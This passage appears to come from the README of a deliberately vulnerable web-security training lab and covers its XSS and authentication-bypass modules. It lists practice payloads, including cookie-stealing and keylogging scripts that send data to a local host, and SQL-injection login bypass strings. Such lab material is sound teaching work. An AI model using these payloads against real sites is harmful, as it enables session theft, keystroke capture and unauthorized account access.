 **Learning Objectives**:
- Understand how SQL injection works
- Learn to exploit authentication bypass
- Practice data extraction techniques
- Compare vulnerable vs secure code

### 2. Cross-Site Scripting (XSS) 🦠
**Location**: XSS module in the web interface

**Vulnerable Endpoint**: `/xss/comment`

**Practice Payloads**:
```html
<!-- Basic alert -->
<script>alert('XSS')</script>

-- Image-based XSS
<img src=x onerror=alert(1)>

-- Cookie theft
<script>fetch('http://localhost:3000/steal?cookie='+document.cookie)</script>

-- Keylogger
<script>document.onkeypress=function(e){fetch('http://localhost:3000/log?key='+e.key)}</script>
```

**Learning Objectives**:
- Understand reflected vs stored XSS
- Learn DOM-based XSS techniques
- Practice input sanitization methods
- Compare vulnerable vs secure implementations

### 3. Authentication Bypass 🔑
**Location**: Authentication Bypass module

**Vulnerable Endpoint**: `/auth/login-weak`

**Practice Techniques**:
```sql
-- SQL injection in login
admin' OR '1'='1'-- -

-- Password field bypass
admin' OR '1'='1'-- -

-- Always true condition
' OR 1=1-- -
```

**Learning Objectives**:
- Understand weak authentication mechanisms
- Learn session management vulnerabilities
- Practice privilege escalation
- Implement secure authentication
